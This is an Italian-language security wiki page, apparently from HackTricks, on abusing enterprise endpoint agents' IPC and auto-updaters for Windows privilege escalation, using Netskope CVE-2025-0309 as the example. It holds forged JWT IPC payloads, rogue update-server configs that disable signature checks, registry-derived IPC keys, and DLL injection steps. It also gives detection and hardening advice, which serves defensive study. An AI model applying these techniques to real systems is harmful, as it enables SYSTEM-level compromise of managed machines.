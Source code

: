 # Abusing Enterprise Auto-Updaters and Privileged IPC (e.g., Netskope stAgentSvc)

{{#include ../../banners/hacktricks-training.md}}

Questa pagina generalizza una classe di catene di local privilege escalation su Windows trovate in endpoint agent aziendali e updater che espongono una superficie IPC a basso attrito e un flusso di update privilegiato. Un esempio rappresentativo è Netskope Client for Windows < R129 (CVE-2025-0309), dove un utente con pochi privilegi può costringere l'enrollment verso un server controllato dall'attaccante e poi consegnare un MSI malevolo che il servizio SYSTEM installa.

Idee chiave riutilizzabili contro prodotti simili:
- Abusare dell'IPC localhost di un servizio privilegiato per forzare la ri-iscrizione o la riconfigurazione verso un server controllato dall'attaccante.
- Implementare gli endpoint di update del vendor, fornire una Trusted Root CA rogue, e puntare l'updater verso un pacchetto "signed" malevolo.
- Evadere controlli di signer deboli (CN allow‑lists), flag di digest opzionali, e proprietà MSI permissive.
- Se l'IPC è "encrypted", derivare la key/IV da identificatori macchina leggibili da tutti memorizzati nel registry.
- Se il servizio restringe i caller per image path/process name, inject in un processo allow‑listed o spawnarne uno suspended e bootstrap la tua DLL tramite una minimale thread‑context patch.

---
## 1) Forcing enrollment to an attacker server via localhost IPC

Molti agenti distribuiscono un processo UI in user‑mode che comunica con un servizio SYSTEM via localhost TCP usando JSON.

Observed in Netskope:
- UI: stAgentUI (low integrity) ↔ Service: stAgentSvc (SYSTEM)
- IPC command ID 148: IDP_USER_PROVISIONING_WITH_TOKEN

Flusso dell'exploit:
1) Creare un token JWT di enrollment i cui claim controllano l'host backend (es., AddonUrl). Usare alg=None in modo che non sia richiesta una firma.
2) Inviare il messaggio IPC che invoca il comando di provisioning con il tuo JWT e il nome tenant:
```json
{
"148": {
"idpTokenValue": "<JWT with AddonUrl=attacker-host; header alg=None>",
"tenantName": "TestOrg"
}
}
```
3) Il servizio inizia a contattare il tuo rogue server per enrollment/config, ad es.:
- /v1/externalhost?service=enrollment
- /config/user/getbrandingbyemail

Notes:
- Se la verifica del caller è basata su path/name‑based, origina la richiesta da un allow‑listed vendor binary (vedi §4).

---
## 2) Dirottare il canale di aggiornamento per eseguire codice come SYSTEM

Una volta che il client comunica col tuo server, implementa gli endpoint attesi e indirizzalo verso un MSI dell'attaccante. Sequenza tipica:

1) /v2/config/org/clientconfig → Restituisci una config JSON con un intervallo di aggiornamento molto breve, ad es.:
```json
{
"clientUpdate": { "updateIntervalInMin": 1 },
"check_msi_digest": false
}
```
2) /config/ca/cert → Restituisce un certificato CA in formato PEM. Il service lo installa nello store Local Machine Trusted Root.
3) /v2/checkupdate → Fornisce metadata che puntano a un MSI maligno e a una versione fasulla.

Bypassare controlli comuni osservati in the wild:
- Signer CN allow‑list: il service potrebbe controllare solo che il Subject CN sia “netSkope Inc” o “Netskope, Inc.”. La tua CA rogue può emettere un leaf con quel CN e firmare l'MSI.
- CERT_DIGEST property: includi una property MSI innocua chiamata CERT_DIGEST. Nessuna enforcement all'installazione.
- Optional digest enforcement: flag di config (es., check_msi_digest=false) disabilita validazioni crittografiche aggiuntive.

Risultato: il servizio SYSTEM installa il tuo MSI da
C:\ProgramData\Netskope\stAgent\data\*.msi
eseguendo codice arbitrario come NT AUTHORITY\SYSTEM.

---
## 3) Forging encrypted IPC requests (when present)

Da R127, Netskope ha incapsulato l'IPC JSON in un campo encryptData che sembra Base64. Il reverse engineering ha mostrato AES con key/IV derivate da valori di registry leggibili da qualsiasi utente:
- Key = HKLM\SOFTWARE\NetSkope\Provisioning\nsdeviceidnew
- IV  = HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\ProductID

Gli attacker possono riprodurre la cifratura e inviare comandi cifrati validi da un utente standard. Suggerimento generale: se un agent improvvisamente “critta” la sua IPC, cerca device IDs, product GUIDs, install IDs sotto HKLM come material.

---
## 4) Bypassing IPC caller allow‑lists (path/name checks)

Alcuni servizi provano ad autenticare il peer risolvendo il PID della connessione TCP e confrontando il percorso/nome dell'immagine contro binari vendor nella allow‑list sotto Program Files (es., stagentui.exe, bwansvc.exe, epdlp.exe).

Due bypass pratici:
- DLL injection in un processo presente nella allow‑list (es., nsdiag.exe) e proxy dell'IPC dall'interno.
- Avviare un binario della allow‑list in stato suspended e bootstrap della tua proxy DLL senza CreateRemoteThread (vedi §5) per soddisfare le regole di tamper imposte dal driver.

---
## 5) Tamper‑protection friendly injection: suspended process + NtContinue patch

I prodotti spesso imbarcano un minifilter/OB callbacks driver (es., Stadrv) che rimuove diritti pericolosi dagli handle verso processi protetti:
- Process: rimuove PROCESS_TERMINATE, PROCESS_CREATE_THREAD, PROCESS_VM_READ, PROCESS_DUP_HANDLE, PROCESS_SUSPEND_RESUME
- Thread: limita a THREAD_GET_CONTEXT, THREAD_QUERY_LIMITED_INFORMATION, THREAD_RESUME, SYNCHRONIZE

Un loader user‑mode affidabile che rispetta questi vincoli:
1) CreateProcess di un binario vendor con CREATE_SUSPENDED.
2) Ottenere gli handle ancora permessi: PROCESS_VM_WRITE | PROCESS_VM_OPERATION sul processo, e un handle thread con THREAD_GET_CONTEXT/THREAD_SET_CONTEXT (o solo THREAD_RESUME se patchi codice a un RIP noto).
3) Sovrascrivere ntdll!NtContinue (o un altro thunk mappato precocemente e garantito) con una piccola stub che chiama LoadLibraryW sul percorso della tua DLL, poi salta indietro.
4) ResumeThread per triggerare la stub in‑process, caricando la tua DLL.

Poiché non hai mai usato PROCESS_CREATE_THREAD o PROCESS_SUSPEND_RESUME su un processo già protetto (l'hai creato tu), la policy del driver è soddisfatta.

---
## 6) Practical tooling
- NachoVPN (Netskope plugin) automatizza una rogue CA, la signing di MSI maligni e serve gli endpoint necessari: /v2/config/org/clientconfig, /config/ca/cert, /v2/checkupdate.
- UpSkope è un custom IPC client che costruisce messaggi IPC arbitrari (opzionalmente AES‑encrypted) e include l'injection via suspended‑process per originare da un binario nella allow‑list.

---
## 7) Detection opportunities (blue team)
- Monitorare aggiunte al Local Machine Trusted Root. Sysmon + registry‑mod eventing (vedi guidance di SpecterOps) funziona bene.
- Segnalare esecuzioni MSI avviate dal service dell'agent da percorsi come C:\ProgramData\<vendor>\<agent>\data\*.msi.
- Revisionare i log dell'agent per host/tenant di enrollment inattesi, es.: C:\ProgramData\netskope\stagent\logs\nsdebuglog.log – cercare addonUrl / anomalie tenant e provisioning msg 148.
- Allertare su client IPC localhost che non siano i binari firmati attesi, o che originano da alberi di processo figlio inconsueti.

---
## Hardening tips for vendors
- Vincolare enrollment/update hosts a una allow‑list rigorosa; rifiutare domini non trusted nel clientcode.
- Autenticare i peer IPC con primitive OS (ALPC security, named‑pipe SIDs) invece di controlli su image path/name.
- Tenere materiale segreto fuori da HKLM leggibile da tutti; se l'IPC deve essere cifrato, derivare le chiavi da secret protetti o negoziare su channel autenticati.
- Trattare l'updater come una superficie di supply‑chain: richiedere una catena completa verso una CA trusted che controlli, verificare le firme dei pacchetti contro chiavi pinned, e fail closed se la validazione è disabilitata in config.

## References
- [Advisory – Netskope Client for Windows – Local Privilege Escalation via Rogue Server (CVE-2025-0309)](https://blog.amberwolf.com/blog/2025/august/advisory---netskope-client-for-windows---local-privilege-escalation-via-rogue-server/)
- [NachoVPN – Netskope plugin](https://github.com/AmberWolfCyber/NachoVPN)
- [UpSkope – Netskope IPC client/exploit](https://github.com/AmberWolfCyber/UpSkope)
- [NVD – CVE-2025-0309](https://nvd.nist.gov/vuln/detail/CVE-2025-0309)

{{#include ../../banners/hacktricks-training.md}}
